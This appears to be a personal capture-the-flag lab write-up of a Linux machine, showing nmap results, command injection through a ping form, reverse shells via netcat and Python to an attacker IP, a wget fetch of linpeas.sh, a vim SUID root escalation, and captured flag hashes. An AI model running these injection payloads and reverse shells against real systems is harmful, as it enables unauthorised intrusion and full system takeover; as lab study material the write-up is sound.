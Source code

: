 # [Recon]

```
=========================================================================
[OS]: Ubuntu
[Web-Technology]: Apache httpd 2.4.29
[Hostname]:
[IP]: 192.168.181.86
[USERS]: dylan
[CREDENTIALS]:
=========================================================================
```
-----------------------------------------------------------------------------

# [Scanning and Enumeration]
```
[NMAP RESULTS]:
=========================================================================
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
=========================================================================
```

![[Pasted image 20240824005840.png]]
We can try to ping any domain and localhost `127.0.0.1` even. Also try to terminate the `ping command` with a `;` to check if we can still execute another command after the ping command.

```bash
google.com;pwd;id;which nc;which bash
```

![[Pasted image 20240812224840.png]]
```bash
google.com;ls;cat index.php
```
![[Pasted image 20240812230547.png]]


`google.com;cat ../../../home/dylan/local.txt`

![[Pasted image 20240812230144.png]]

**Reverse Connection using netcat or bash**
```bash
google.com;nc -e /bin/bash 192.168.45.172 9001
# OR

127.0.0.1 &&  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.172",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# [Privilege-Escalation]
```bash
=========================================================================
# [OTHER / PRIVILEGE-ESCALATION]:
cd /tmp    # upload linpeas.sh via port 80
wget http://192.168.45.172/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
=========================================================================
```
![[Pasted image 20240824004527.png]]
here, the `vim.basic SUID` stand out clear. So i google `gtfogbins.github.io for vim SUID`.
```bash
vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

![[Pasted image 20240824005329.png]]
```
# Then type command
command
# And we are root
```

# [Flags]

`local.txt : 9535b24b4bb757da06d6dbaa9a510b0c`
`proof.txt : 83e806c7b840aca59a8661dec8ea3710`
# [keynote]
```
Take Away Concepts (for the flat-file reference system):
* Always try the basic things never underestimate the little things.
* if `find / -perm 6000 -u=s -type f 2>/dev/null` didn't return any result, always upload `linpeas.sh` to confirm.
* Read prompts always and understand every error it returns

```